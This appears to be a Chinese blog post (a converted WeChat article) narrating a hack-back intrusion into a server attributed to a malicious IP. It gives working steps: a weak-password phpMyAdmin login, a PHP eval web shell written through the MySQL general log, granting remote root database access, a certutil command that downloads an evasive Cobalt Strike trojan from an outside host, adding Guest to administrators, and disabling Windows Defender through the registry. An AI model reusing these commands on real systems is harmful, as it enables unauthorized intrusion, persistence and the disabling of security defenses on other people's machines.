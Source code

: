 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/VvaUCfhELu020U3QI5s5Ew)

前言

发现该恶意 IP 上 80 端口存在 phpmyadmin  

通过弱口令成功登陆 phpmyadmin 后台

写 shell

`show variables like '%general%';`

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHs0efQOhBTPzH9iaG2toI44o1sibgBNQV8fcOOx9nMcpiaPYWyfunaf15vQ/640?wx_fmt=png)

##### 查看数据库目录

`select @@basedir`

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHs7xNSIaUDH46wQP2bNklFPcHXbJve96Q8icfK1BFvt6GmFxSlRl0snHg/640?wx_fmt=png)

##### 猜测根目录

因为数据库目录为 C:/phpStudy/PHPTutorial/MySQL/，猜测网站根目录为 C:/phpStudy/PHPTutorial/www/

##### 设置日志文件，发现被转义。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHs732e5OEBUOKgBtc9wnVeE8YcmrLOxF25hfHoicZK7NuH0icdJX6BbWuQ/640?wx_fmt=png)

设置为双 反斜杠 防止转义

```
set global general_log_file=’C:\phpstudy\PHPTutorial\WWW\1234.php’
```

##### 写 webshell 失败

经过排查，发现网站根目录错误，经过猜测，成功找到网站根路径

##### 重新设置日志文件

```
set global general_log_file=’C:\phpstudy\PHPTutorial\WWW\Test\1234.php’
```

##### 写入成功

```
select '<?php eval($_POST[cmd]);?>'
```

无法连接

通过 php 执行 tasklist，发现目标服务器上存在安全狗进程。

##### 尝试写入免杀一句话，发现无法通过 php 文件进行写入

开启 3306 外联尝试写入一句话

```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
```

成功连接

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHsbnzyn8FrRRek6PhzibUsv7QAuEiaocicy6ZiapuibldYFoaemIFSeB3DVuA/640?wx_fmt=png)

发现目标配置文件未打开导入导出功能，无法写入文件。

通过 php 文件下载免杀 CS 木马

文件代码如下：

```
select "<?php echo `certutil.exe -urlcache -split -f http://xx.xx.xx.xx:8080/xx.exe C:\\phpStudy\\PHPTutorial\\WWW\\test\\xx.exe`;?>"
```

### cs 成功上线目标主机，权限为最高权限。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHsayxY5JTyTNapyIKdOmzZlpllqB99TBbQF1vqZwK9DdwB2HcZOL9eYQ/640?wx_fmt=png)

### 查看服务器信息

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHsWzP9sYV8djsdLDSCeVfL60RDOc7cgdHgVBuuDNTDLySApzyRNA5j0g/640?wx_fmt=png)

查看攻击者主机文件目录  

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHsCKXDpZ0sG05W9WlWy9YLkP2f2273Zd8NupT7J9tyVvsxlLhXxNPS0A/640?wx_fmt=png)

尝试查看管理员用户密码  

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHspScYXjfiaiaibictshEicTI4N9LCFgTAeexxMIpPAYMvf9UJUaEwTg57Nkg/640?wx_fmt=png)

由于服务器版本为 2012，直接使用 mimikatz 读取密码失败。

激活 Guest 用户

首先激活 guest 用户

```
net user guest /active:yes
net user guest 1q2w3e4r@
net localgroup administrators guest /add
```

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHswibCAfYywn5pMN4rwicwPDbMN7X10d4K9ju0xMkGqwKcUbgKGbUEjg2A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHs8yLGWOBrCricriakibACvHHouqyUdOHlLZWOa0L5n1Y4k7Pxd9FmGBeuQ/640?wx_fmt=jpeg)

在服务器桌面上查看到了攻击记录  

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHst4Ol952h62411yjg48iaBa9852gGY3W2vpZaADWhe3p5iam57t9ibClqQ/640?wx_fmt=png)

guest 远程登陆断开，被发现了

### 查看攻击者在线。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHswhjqZCVgx95b7WZiayibmiapdpOfwarmfQ5sLrTbfUy7ICQu9QLgq4GFw/640?wx_fmt=png)

查看攻击者连接 ip。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicRUG4gPFlLVVtnavo5LbMHsia28awJAqmGVVR8dCTH6BTicPlr7ic7B8ibEl6gicq8IpeDv8CqmvXZXbFA/640?wx_fmt=png)

### 对连接 ip 进行定位监控

172.27.16.15:3389 xx.xx.xx.xx:11072 ESTABLISHED 1552

使用 cs 关闭杀软

`reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD`

上传远控后录屏观察攻击者行为